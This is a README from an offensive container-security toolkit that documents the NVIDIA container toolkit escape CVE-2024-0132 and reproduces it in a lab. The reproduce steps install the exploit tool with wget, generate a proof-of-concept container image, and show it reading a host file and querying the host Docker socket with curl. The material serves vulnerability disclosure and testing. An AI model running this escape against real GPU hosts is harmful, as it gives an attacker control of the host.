

---

tags: sploit
author: ssst0n3
spec_version: v0.1.0
version: v0.2.0
changelog:
    - v0.2.0: update exploit; use docker-archive as reproduce env
    - v0.1.0: init

---

# libnvidia-container CVE-2024-0132

[edit](https://github.com/ctrsploit/ctrsploit/edit/main/vul/cve-2024-0132/README.md)

## 1. Vulnerability Overview

The vulnerability originates in the `libnvidia-container.so` library, which is part of `nvidia-container-cli`; both belong to `libnvidia-container`. `libnvidia-container` and other related utilities form the NVIDIA Container Toolkit. The NVIDIA Container Toolkit is a set of tools released by NVIDIA to enable GPU-accelerated computing in containerized environments. It allows users to utilize NVIDIA GPUs in container platforms like Docker, making it possible to run applications that require GPU support within containers, such as those for deep learning training, inference, and scientific computing.

In `libnvidia-container` versions `>= 1.0.0` and `<= 1.16.1`, a container escape vulnerability exists. This allows an attacker to deploy a malicious container and mount arbitrary files from the host into the container in read-only mode. By mounting a runtime socket file, a container escape can be achieved.

## 2. Exploit Scenario

running a custom image with the vulnerable nvidia-container-toolkit

## 3. Prerequisites

1. nvidia-container-toolkit `>=v1.0.0, <=v1.16.1`
2. nvidia-container-toolkit running as legacy mode(default)

## 4. Vulnerability Existence Check

`ctrsploit checksec cve-2024-0132`

## 5. Reproduce



### 5.1 Reproduce Environment

```shell
$ git clone https://github.com/ssst0n3/docker_archive.git
$ cd docker_archive/vul/cve-2024-0132 
$ docker compose -f docker-compose.yml -f docker-compose.kvm up -d
```

<details><summary>env details</summary>

```shell
$ ./ssh
root@cve-2024-0132:~# nvidia-container-toolkit --version
NVIDIA Container Runtime Hook version 1.16.1
commit: a470818ba7d9166be282cd0039dd2fc9b0a34d73
root@cve-2024-0132:~# docker info
Client: Docker Engine - Community
 Version:    27.1.0
 Context:    default
 Debug Mode: false
 Plugins:
  buildx: Docker Buildx (Docker Inc.)
    Version:  v0.16.1
    Path:     /usr/libexec/docker/cli-plugins/docker-buildx
  compose: Docker Compose (Docker Inc.)
    Version:  v2.29.0
    Path:     /usr/libexec/docker/cli-plugins/docker-compose

Server:
Containers: 0
Running: 0
Paused: 0
Stopped: 0
Images: 0
Server Version: 27.1.0
Storage Driver: overlay2
Backing Filesystem: extfs
Supports d_type: true
Using metacopy: false
Native Overlay Diff: true
userxattr: false
Logging Driver: json-file
Cgroup Driver: systemd
Cgroup Version: 2
Plugins:
Volume: local
Network: bridge host ipvlan macvlan null overlay
Log: awslogs fluentd gcplogs gelf journald json-file local splunk syslog
Swarm: inactive
Runtimes: io.containerd.runc.v2 nvidia runc
Default Runtime: runc
Init Binary: docker-init
containerd version: 8fc6bcff51318944179630522a095cc9dbf9f353
runc version: v1.1.13-0-g58aa920
init version: de40ad0
Security Options:
apparmor
seccomp
Profile: builtin
cgroupns
Kernel Version: 6.8.0-71-generic
Operating System: Ubuntu 24.04.2 LTS
OSType: linux
Architecture: x86_64
CPUs: 2
Total Memory: 1.922GiB
Name: cve-2024-0132
ID: 6b674421-6458-4a13-8704-63c7441000e8
Docker Root Dir: /var/lib/docker
Debug Mode: false
Experimental: false
Insecure Registries:
127.0.0.0/8
Live Restore Enabled: false

root@cve-2024-0132:~# containerd --version
containerd containerd.io 1.7.20 8fc6bcff51318944179630522a095cc9dbf9f353
```

</details>

### 5.2 Reproduce Steps

```shell
$ ./ssh
root@cve-2024-0132:~# wget -q https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 -O /usr/bin/ctrsploit
root@cve-2024-0132:~# chmod +x /usr/bin/ctrsploit
root@cve-2024-0132:~# ctrsploit vul 0132 c
[Y]  cve-2024-0132	# nvidia-container-toolkit CVE-2024-0132 container escape. Affected versions: libnvidia-container >= 1.0.0, <= 1.16.1
root@cve-2024-0132:~# ctrsploit vul 0132 x
INFO[0000] exploit generated in poc-cve-2024-0132 directory, build it and push it to your registry 
root@cve-2024-0132:~# ls -lah poc-cve-2024-0132/
total 16K
drwxr-xr-x 2 root root 4.0K Sep  8 09:21 .
drwx------ 5 root root 4.0K Sep  8 09:21 ..
-rw-r--r-- 1 root root  624 Sep  8 09:21 Dockerfile
-rwxr-xr-x 1 root root  229 Sep  8 09:21 entrypoint.sh
root@cve-2024-0132:~# cd poc-cve-2024-0132/
root@cve-2024-0132:~/poc-cve-2024-0132# docker build -t poc .
root@cve-2024-0132:~/poc-cve-2024-0132# docker run -ti --runtime=nvidia --gpus=all poc
+ cat /host/etc/hostname
cve-2024-0132
+ curl --unix-socket /host-run/docker.sock http://localhost/containers/json
[]
```
